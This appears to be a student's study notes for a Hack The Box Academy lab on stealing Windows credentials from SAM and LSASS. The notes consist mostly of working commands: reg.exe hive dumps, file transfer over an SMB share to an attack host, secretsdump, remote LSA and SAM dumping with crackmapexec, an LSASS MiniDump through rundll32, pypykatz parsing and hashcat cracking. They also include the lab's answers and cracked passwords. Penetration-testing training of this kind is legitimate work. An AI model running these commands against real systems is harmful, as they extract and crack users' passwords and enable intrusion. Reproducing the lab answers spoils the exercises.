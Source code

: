 # Attacking SAM & LSASS

## Attacking SAM

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

There are three registry hives that we can copy if we have local admin access on the target ->

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

We can create backups of these hives using the `reg.exe` utility.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```shell-session
ElFelixi0@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

And then once everything is on the attackbox we can dump it using secretsdump ->

```shell-session
ElFelixi0@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

we can copy the NT hashes associated with each user account into a text file and start cracking passwords.

```shell-session
ElFelixi0@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
<SNIP>
```

and in hashcat ->

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping

Using crackmapexec (better to use netexec but in the course it will be cme) we can extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

_**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```
hashcat -m 1000 realnthash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>c02478537b9727d391bc80011c2e2321:matrix</p></figcaption></figure>

_**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer.**_

```
crackmapexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

LSASS will:

* Cache credentials locally in memory
* Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* Enforce security policies
* Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p><code>Open Task Manager</code> > <code>Select the Processes tab</code> > <code>Find &#x26; right click the Local Security Authority Process</code> > <code>Select Create dump file</code></p></figcaption></figure>

And a file will be created here ->

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

And we can transfer the file to our local machine just like the sam one.

### Rundll32

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.

we must determine what process ID (`PID`) is assigned to `lsass.exe` throught cmd or powershell

_**CMD:**_

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
<SNIP>
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

_**Powershell:**_

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

And then we can use rundll ->

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`) and we can transfer that file to attackbock just like the others.

### Pypykatz to Extract Credentials

Now that we have our dmp file we can use [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file.

```shell-session
ElFelixi0@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will looksomething like this ->

```shell-session
<SNIP>
== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
<SNIP>	
```

Now we can use Hashcat to crack the NT Hash.

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

_**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1455).png" alt=""><figcaption><p>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP</p></figcaption></figure>

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1032889/Documents/
```

<figure><img src="../../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

```
pypykatz lsa minidump lsass.DMP
```

<figure><img src="../../../../.gitbook/assets/image (1457).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314</p></figcaption></figure>

```
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1458).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314:Mic@123</p></figcaption></figure>
